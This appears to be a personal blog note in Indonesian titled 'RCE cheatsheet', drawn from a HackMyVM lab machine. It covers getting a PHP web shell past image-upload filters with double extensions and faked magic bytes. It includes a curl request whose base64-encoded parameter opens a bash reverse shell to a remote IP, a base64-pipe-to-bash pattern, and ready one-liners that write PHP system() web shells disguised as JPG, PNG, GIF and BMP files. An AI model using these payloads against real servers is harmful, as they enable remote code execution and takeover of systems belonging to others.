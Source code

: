 ```yaml
---
layout: post
title: "Note: RCE cheatsheet"
date: 2022-12-09
---
```


Karena saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut.

Bisa juga, jika trik ini tidak berfungsi dengan benar, maka bisa dinjeksi dengan membuat ekstensi menjadi double format.
```sh
~$ mv shell.jpg shell.jpg.php
```
lalu coba aktifkan dengan curl
```sh
~$ curl -s "http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg%3D%3D+%7C+base64+-d+%7C+bash"
```
Dan, tidak perlu repot repot untuk menggunakan <https://revshell.com> yang dibuat oleh 0day. Cukup buat string menjadi URL-encoded, dan eksekusi.
```sh
~$ python -c 'import urllib.parse; string = "(isi string di sini)"; print(urllib.parse.quote_plus(string))'
```
Dengan format seperti ini, btw ini format favorit saya.
```sh
~$ echo (base64) | base64 -d | bash  
```

## Kasus
ada kasus menarik dari mesin [Beloved: HackMyVM], exploit yang saya jalankan dengan request `image` tidak berfungsi, jadi saya menggunakan trik manual yaitu mengganti format menjadi `.jpg.php` untuk membypass.

![image](https://i.postimg.cc/63Vx9Pzf/image.png)

Ketika saya eksekusi jadi seperti ini
```
╭─ via [machines/beloved]
╰─ curl -s http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sebelum masuk ke cheatsheet, jika anda penikmat POST Request bisa mengganti `$_GET` menjadi `$_POST`. LOL semua orang juga sudah tau ini.

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

Happy hacking!
